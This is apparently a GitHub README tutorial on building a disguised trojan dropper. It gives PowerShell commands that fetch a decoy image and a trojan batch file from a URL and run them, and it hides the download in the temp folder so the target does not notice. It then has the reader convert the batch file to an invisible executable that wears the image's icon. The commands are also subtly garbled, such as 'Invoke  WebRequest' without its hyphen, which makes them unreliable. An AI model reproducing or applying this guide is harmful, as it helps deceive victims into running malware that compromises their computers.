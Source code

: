 <h1 align="center">Welcome to Repositorie of how to add Trojan in backdoor👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg)](https://www.python.org/)


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)

<p align =center >
  <img src="https://media.tenor.com/-r6mKisZ_ycAAAAM/tokusatsu-ultraman.gif" height='288' width='512' />
</p>

<h2 align="center"> Dont try this at Home, School,Or any other public place!!! </h2>
<br>

<h1 align="center"> Introduction to Trojan</h1>

<p>
A Trojan Horse Virus is a type of malware that downloads onto a computer disguised as a legitimate program. The delivery method typically sees an attacker use social engineering to hide malicious code within legitimate software to try and gain users' system access with their software.
  <P/>

  <h2> If you don't know how to make trojan you need to see my previous repository in that I have explain fully how to make trojan then after that you need to use this repository to add trojan at backdoor. </h2>

### 🏠 [How to make trojan ](https://github.com/AnandKatariya/Create-Trojan)

## But all apart in this we will learn how to add trojan in backdoor from powershell.

<h2>Go to browser and select the image which you want to send to target.</h2><br>
<h2>Then open powershell and direct the powershell to desktop.</h2><br>

## Direct to desktop 
```sh
cd .\Desktop\
```

Then after this it will be redirected to desktop and after that paste the command but before pasting just edit website.com to ehich image you want to send to target paste that URL.

## Downlode you image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
```
Paste this into your powershell and you will able to downlode the image you can see it on desktop, But if you need to add trojan into backdoor you need to add som new command to codeline.

<h2> If you have trojan file add it but if you dont have you need to create it, If you dont know to to create it just check my last repo.. and you will learn. After creating the trojan you need to save it as .bat file.  </h2>
<br>
<h3> Now here we will place the trojan file inside the image so we need to add the command in powershell is,</h3>
  
  ## Add trojan in image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```
<br>
<h3> But this is not the way if you will downlode the virus file on desktop user will know this so we need to go to temp directory. So </h3>

 # To add file in temp
```sh
cd %temp%
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```

after this you need to save this and and you need to save this in all file not in text document and after that save as extension as matrix-trojan.bat
you need to save it as .bat it is mandatory. But you will see that file not looking properly it looking like any suspious file so we need to modify it. So we all need to do is 

## Downlode bat to exe converter

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Backdoor-Trojan/16545e42c093f37c828f551632a0067c4cdfce69/logo/bat-to-exe-file.svg)](https://github.com/AnandKatariya/Backdoor-Trojan/blob/main/Bat_To_Exe_Converter_x64.exe)


<h2> After install open the file or drag and drop it in the Bat to Exe converter and run the file then select the icon as the thumnail of the same image but before select the icon go to png to ico converter online and convert the image in ico file and then add it as logo and change the exe format into invisible after this you will convert it and thats it your are done.</h2>

## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)

